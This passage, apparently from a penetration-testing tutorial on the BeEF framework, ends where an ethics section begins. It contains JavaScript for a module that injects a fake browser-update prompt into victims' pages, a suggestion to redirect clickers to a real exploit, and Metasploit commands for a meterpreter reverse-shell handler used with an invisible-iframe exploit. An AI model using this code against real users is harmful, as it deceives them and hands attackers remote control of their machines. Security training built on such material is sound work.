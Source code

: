 **Example: Simulating a Browser Update Prompt**

1. Create a custom BeEF module that injects a fake update prompt into the target page:
   ```javascript
   beef.execute(function() {
     var updateDiv = document.createElement('div');
     updateDiv.innerHTML = '<h2>Critical Security Update Required</h2><p>Your browser is out of date. Click here to update now.</p><button onclick="beef.net.send(\'<%= @command_url %>\', <%= @command_id %>, {clicked: true});">Update Now</button>';
     updateDiv.style.position = 'fixed';
     updateDiv.style.top = '0';
     updateDiv.style.left = '0';
     updateDiv.style.width = '100%';
     updateDiv.style.backgroundColor = '#ffcccc';
     updateDiv.style.padding = '20px';
     updateDiv.style.zIndex = '9999';
     document.body.appendChild(updateDiv);
   });
   ```
2. When a user clicks the "Update Now" button, you can redirect them to a page hosting a real exploit or gather more information about their system.

### Integrating BeEF with Other Security Tools

BeEF's power can be amplified by integrating it with other popular security tools. Some notable integrations include:

- Metasploit Framework: Combining BeEF's browser exploitation capabilities with Metasploit's extensive exploit database and post-exploitation modules.
- Burp Suite: Using BeEF in tandem with Burp Suite for comprehensive web application security testing.
- Custom Scripts: Developing scripts to automate the interaction between BeEF and other tools in your security testing workflow.

**Example: Integrating BeEF with Metasploit**

1. Start the Metasploit Framework:
   ```sh
   msfconsole
   ```
2. Set up a handler for incoming connections:
   ```sh
   use exploit/multi/handler
   set PAYLOAD windows/meterpreter/reverse_tcp
   set LHOST your_ip_address
   set LPORT 4444
   run -j
   ```
3. In BeEF, use the "Create Invisible Iframe" module to load a page containing a Metasploit browser exploit.
4. When the exploit succeeds, you'll have both a BeEF hook and a Meterpreter session, allowing for powerful combined attacks.

## Ethical Considerations and Responsible Use
